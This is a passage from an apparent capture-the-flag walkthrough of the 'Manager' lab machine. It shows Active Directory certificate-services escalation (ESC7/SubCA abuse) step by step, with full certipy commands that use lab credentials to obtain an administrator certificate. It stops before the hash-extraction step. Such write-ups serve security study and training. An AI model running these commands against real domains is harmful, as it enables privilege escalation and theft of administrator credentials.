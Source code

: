 There are two attacks for this specific vulnerability one requires us to reboot the machine making it not a viable attack for us right now. The technique relies on the fact that users with the Manage CA and Manage Certificates access right can issue failed certificate requests. The SubCA certificate template is vulnerable to ESC1, but only administrators can enroll in the template. Thus, a user can request to enroll in the SubCA - which will be denied - but then issued by the manager afterwards.

So first of all we need to enroll make our user raven an officer. This will give us the ability to enable the SubCA template which is vulnerable to ESC1

```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 
```  
![Raven added as officer ](/assets/img/Manager/Manager_07.png)

next up we need to enable the vulnerable SubCA template. In the screenshot below we can see that we were able to enable this template successfully.

```bash
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -enable-template 'SubCA'
```
![SubCa enabled](/assets/img/Manager/Manager_08.png)

Next we try to request a certificate for the administrator user. This will fail but thats the point, using the permissions we have we should be able to pick up on that one again later. Here we can see that our request ID is **16**. Note down this number you'll need it for the next requests

```bash
certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb
```
![Failed certificate](/assets/img/Manager/Manager_09.png)

So now we can issue this certificate again with the following command.
  
```bash
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -issue-request 16
```
![Issued certificate](/assets/img/Manager/Manager_10.png)

Now that we have the certificate issued we were able to request this certificate again. This will give us a valid certificate of the administrator user.

```bash
certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca 'manager-DC01-CA' -retrieve 16
```

![Requested certificate](/assets/img/Manager/Manager_11.png)

Then we can try to obtain the ntlm hash of the Administrator user using the following command however the first time i tried this it didn't work. This happens because our machine's time is not in sync with the time of the box we are attacking.
